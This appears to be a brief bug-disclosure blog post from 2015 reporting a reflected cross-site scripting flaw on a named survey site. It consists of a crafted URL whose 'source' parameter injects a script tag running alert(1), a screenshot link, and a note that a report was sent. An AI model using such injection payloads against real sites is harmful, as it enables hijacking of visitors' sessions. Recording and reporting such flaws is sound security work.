 ```yaml
---
title: 'XSS http://facebook-survey.com'
date: '2015-10-23 22:50:00'
---
```


  
http://facebook-survey.com/survey/selfserve/ca9/fcb15004?list=0&source=o87hFMSdu%3C/p%3E%3Cscript%3Ealert%281%29%3C/script%3E  
  
[![](http://4.bp.blogspot.com/-QlrMeC9YXpU/VipXFg_RvgI/AAAAAAAAZxk/FHYJV8nn33Q/s640/Screenshot-The%2BURL%2Babove%2Bdoes%2Bnot%2Binclude%2Bthe%2Bproper%2Binformation%2Bto%2Bbe%2Bincluded%2Bin%2Bthis%2Bsurvey.%2BPlease%2Breview%2Byour%2Binvite%2Bemail%2Bfor%2Bthe%2Bproper%2BURL%252C%2Band%2Bcontact%2Bthe%2Bindividual%2Bspecified%2Bif%2Bproblems%2Bpersist.%2B-%2BMozilla%2BFirefox.png)](http://4.bp.blogspot.com/-QlrMeC9YXpU/VipXFg_RvgI/AAAAAAAAZxk/FHYJV8nn33Q/s1600/Screenshot-The%2BURL%2Babove%2Bdoes%2Bnot%2Binclude%2Bthe%2Bproper%2Binformation%2Bto%2Bbe%2Bincluded%2Bin%2Bthis%2Bsurvey.%2BPlease%2Breview%2Byour%2Binvite%2Bemail%2Bfor%2Bthe%2Bproper%2BURL%252C%2Band%2Bcontact%2Bthe%2Bindividual%2Bspecified%2Bif%2Bproblems%2Bpersist.%2B-%2BMozilla%2BFirefox.png)  
  
Timeline  
  
OCT 23, 2015 at 22:50am – Report Sent